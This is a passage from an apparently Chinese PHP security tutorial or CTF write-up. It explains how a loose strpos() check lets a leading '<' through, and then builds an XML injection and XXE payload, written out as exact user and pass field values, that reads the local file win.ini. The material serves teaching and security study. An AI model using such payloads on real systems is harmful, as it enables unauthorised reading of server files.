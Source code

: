 在上面这个例子中，**strpos** 函数返回查找到的子字符串的下标。如果字符串开头就是我们要搜索的目标，则返回下标 0 ；如果搜索不到，则返回 false 。在这道题目中，开发者只考虑到 **strpos** 函数返回 **false** 的情况，却忽略了匹配到的字符在首位时会返回 **0** 的情况，因为 false 和 0 的取反均为 true 。这样我们就可以**在用户名和密码首字符注入 < 符号**，从而 **注入xml数据**。我们尝试使用以下 payload ，观察 strpos 函数的返回结果。

```
user=<"><injected-tag property="&pass=<injected-tag>
```

<img src=".\图片\2121121.png" alt="2121121" style="zoom:80%;" />

如上图所示，很明显是可以注入xml数据的。

```php
$format = '<?xml version="1.0"?>' .
                '<user v="%s"/><pass v="%s"/>';
```

根据以上拼接字符串，可以构造如下：

```
<?xml version="1.0">
<user v=""/><!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>< ""/>
<pass v=""/><description>&xxe;</description><""/>

所以payload如下
user:<>"/><!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>< "
pass:<>"/><description>&xxe;</description><"
```

构造后：

```php
$format = '<?xml version="1.0"?>' .
                '<user v="<>"/><!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>< ""/><pass v="<>"/><description>&xxe;</description><""/>';
```

### CMS实例
